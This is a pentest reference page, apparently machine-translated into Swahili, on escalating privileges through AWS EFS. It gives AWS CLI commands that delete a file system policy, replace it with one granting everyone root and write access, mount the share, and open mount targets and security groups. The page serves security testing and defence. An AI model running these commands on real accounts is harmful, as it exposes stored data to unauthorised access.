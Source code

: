 # AWS - EFS Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## EFS

Maelezo zaidi kuhusu EFS inapatikana:

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

Kumbuka kwamba ili kufunga EFS unahitaji kuwa kwenye mtandao wa chini ambapo EFS inaonekana na kuwa na ufikiaji wake (vikundi vya usalama). Ikiwa hii inatokea, kwa chaguo-msingi, utaweza kufunga, hata hivyo, ikiwa imekingwa na sera za IAM unahitaji kuwa na ruhusa za ziada zilizotajwa hapa ili kuipata.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Kwa ruhusa yoyote kati ya hizo, mshambuliaji anaweza **kubadilisha sera ya mfumo wa faili** ili **kukupa ufikiaji** kwake, au tu **kuifuta** ili **ufikiaji wa chaguo-msingi** upewe.

Ili kufuta sera:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Kuibadilisha:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Kwa idhini hii, mshambuliaji ataweza **kufunga EFS**. Ikiwa idhini ya kuandika haijatolewa kwa kila mtu anayeweza kufunga EFS, atakuwa na **upatikanaji wa kusoma tu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
**Mamlaka ya ziada** `elasticfilesystem:ClientRootAccess` na `elasticfilesystem:ClientWrite` inaweza kutumika kwa **kuandika** ndani ya mfumo wa faili baada ya kufungwa na kwa **kupata** mfumo huo wa faili **kama root**.

**Matokeo Yanayowezekana:** Privesc isiyo ya moja kwa moja kwa kutambua habari nyeti katika mfumo wa faili.

### `elasticfilesystem:CreateMountTarget`

Ikiwa mshambuliaji yuko ndani ya **mtandao wa sehemu** ambapo **hakuna lengo la kufunga** la EFS lipo. Anaweza tu **kuunda moja katika eneo lake** na mamlaka hii:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Athari Inayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutambua habari nyeti kwenye mfumo wa faili.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Katika hali ambapo mshambuliaji anagundua kwamba EFS ina lengo la kufunga katika eneo lake la mtandao lakini **hakuna kikundi cha usalama kinachoruhusu trafiki**, anaweza tu **kubadilisha hilo kwa kubadilisha vikundi vya usalama vilivyochaguliwa**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Athari Inayoweza Kutokea:** Privesc isiyo ya moja kwa moja kwa kutambua habari nyeti kwenye mfumo wa faili.



<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi kuwa bingwa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
